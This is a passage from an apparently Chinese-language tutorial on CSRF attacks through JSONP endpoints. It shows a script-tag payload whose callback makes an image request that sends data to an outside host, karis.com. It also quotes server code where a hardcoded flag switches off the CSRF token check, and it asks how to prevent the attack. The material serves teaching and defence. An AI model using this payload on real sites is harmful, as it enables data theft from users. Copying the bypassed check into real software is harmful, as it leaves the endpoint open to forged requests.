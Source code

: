 代码里面加了一个标签叫

```html
<script src="http://localhost:3000/api/jsonp?callback=(new%20Image).src%3D%22http%3A%2F%2Fkaris.com%3A3000%2Freport%3Fdata%3D%22%2BJSON.stringify"></script>
```

在加载这个标签的时候，就会请求 jsonp 这个函数
![jsonp](./image/csrf-jsonp.jpg)

可是这个 callback 又是一个 img 的 src，接下来他也会去请求 src 里面的东西。
所以最后的结果是：他偷偷的去上报啦～～～

![report-jsonp](./image/report-jsonp.jpg)

（哇，我一片真心对你，你居然给我整这么多幺蛾子～～

要怎么避免这种情况的发生呢？

回头看一下代码：

```js
    case "/api/jsonp":
      let csrf_close = true;
      if (csrf_close || csrf.verify(ctx.query.token)) {
        ctx.type = "js";
        ctx.body = `${ctx.query.callback}(${Math.random()})`;
      } else {
        ctx.status = 403;
        ctx.body = "token error";
      }
      break;
```
